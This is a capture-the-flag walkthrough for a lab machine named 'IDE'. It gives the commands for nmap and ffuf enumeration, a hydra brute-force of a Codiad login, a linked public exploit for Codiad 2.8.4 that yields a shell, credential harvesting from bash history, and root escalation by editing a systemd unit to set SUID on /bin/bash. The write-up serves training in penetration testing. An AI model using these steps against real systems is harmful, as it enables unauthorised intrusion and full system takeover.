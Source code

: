 # IDE

---

## *User flag* 

We'll start with a standard nmap scan:

> `sudo nmap 10.10.188.109 -Pn -p- -A -vv -T4 --script discovery,vuln -oN nmap-scan`

Using the following command we'll grab all running services:

> `cat nmap-scan | grep -e '[0-9]\+/tcp[[:space:]].*' -o`

The result would be like:

- 21/tcp    open  ftp     syn-ack ttl 63 vsftpd 3.0.3
- 22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
- 80/tcp    open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
- 62337/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))

Okey, we have ftp, ssh, http services running on Ubuntu. Nmap scripts, such as
http-sitemap-generator and http enum give us some of endpoints.

- For http on port 80:
    - /
    - /icons/
- For http on port 62337:
    - /
    - /data/
    - /js/
    - /lib/
    - /themes/
    - /components/user/
    - /themes/default/
    - /themes/default/editor/
    - /themes/default/fileext_textmode/
    - /themes/default/filemanager/
    - /themes/default/project/
    - /themes/default/settings/
    - /themes/default/user

Let's enumerate http services a bit in the background:

> `./ffuf -u http://$IP:80/FUZZ -of md -o ~/CTF/IDE/ffuf-port-80.md -t 50 -ic -w ~/CyberSecurity/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt`

(And the exact same command for port 62337)

And while ffuf is running, we should poke around in ftp service. anonymous login is 
allowed, so we can start with simple enumeration. Navigating to '...' directory reveals a 
note in the file '-':

> Hey john,
> 
> I have reset the password as you have asked. Please use the default password to login. 
> 
> Also, please take care of the image file ;)
> 
>\- drac.

Now we have 2 usernames:
- john
- drac

And a likely weak password for john. BTW, the ffuf is finished, so we have following
directory structure:

***The results for port 80:***

- server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 54ms]

Not impressive. ***Let's try port 62337:***

- themes                  [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 63ms]
- data                    [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 79ms]
- plugins                 [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 62ms]
- lib                     [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 58ms]
- languages               [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 54ms]
- js                      [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 89ms]
- components              [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 56ms]
- workspace               [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 56ms]
- server-status           [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 52ms]

Examining network connections in browser tab, we can conclude that backend is written in 
PHP.

Hmmm... Not particularly useful. Our next step would be bruteforsing ***john's*** account.
Use the following command to bruteforce a login form:

> `hydra -l john -P ~/CyberSecurity/SecLists/Passwords/Leaked-Databases/rockyou.txt 10.10.188.109 -s 62337 http-post-form '/components/user/controller.php?action=authenticate:username=^USER^&password=^PASS^&theme=default&language=en:F=Incorrect Username or Password' -V`

And BAM! - There's your password!.

Credentials won't work with ssh or ftp, so for now we're stuck with http service.
It seems like ssome kind of online-IDE, where john is developing video-streaming service:

![IDE-VIEW](https://i.postimg.cc/cCqBRQ7K/ide-view.png)

Awesome. We now have access to Codiad 2.8.4 instance. Maybe this version is vulnerable to 
comething?

A search on AttackerKB gave a buttload of results for our version! We'll pick 
CVE-2018-14009. An exploit already exists and can be found at [ExploitDB](https://www.exploit-db.com/exploits/49705)

Rename this gibberish to "exploit.py" and execute the following command:

> `python3 exploit.py`

Follow the instructions and you'll get an unprivileged shell!

First thing I did was navigating to /home, finding that we have only 1 user 'drac' and
listing drac's directory. We see that we have user.txt which belongs to drac. Lets try
and switch user to drack.

Let's see, what commands have drac typed in:

> `cat /home/drac/.bash_history`

It appears that he started mysql database, and we see a cleartext password!

To switch to 'drac', you'll need to upgrade your shell first:

> `python3 -c "import pty; pty.spawn('/bin/bash')"`

now

> `su drac`

with previously found password. Congratulations! You got the user flag!

---

## *Root flag* 

Let's enumerate machine a bit. To see, what drac can run with sudo, type:

> `sudo -l`

And you'll get the following output:

    Matching Defaults entries for drac on ide:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User drac may run the following commands on ide:
        (ALL : ALL) /usr/sbin/service vsftpd restart

Awesome. We can restart the service as root. Next thing we do, is to check whether we
can edit vsftpd.service file:

> `ls -la /lib/systemd/system/ | grep vsftpd`

and yes! It has 'drac' group!

We have to upgrade our shell more:

1. In YOUR terminal, run `echo $TERM`.
2. In NETCAT terminal, run:

> `CTRL+Z`
>
> `stty raw -echo`
>
> `fg + [Enter](x2)`

3. in the NETCAT terminal, run `export TERM=that-value-from-list-item-1`

Now you should be able to run `nano vsftpd.service`

Change it to be like this:

    [Unit]
    Description=vsftpd FTP server
    After=network.target

    [Service]
    Type=simple
    ExecStart=/bin/chmod u+s /bin/bash
    ExecReload=/bin/chmod u+s /bin/bash
    ExecStartPre=-/bin/chmod u+s /bin/bash

    [Install]
    WantedBy=multi-user.target

And then do:
> `systemctl daemon-reload`
>
> `sudo /usr/sbin/service vsftpd restart`
>
> `/bin/bash -p`

That's it! Go grab that root flag!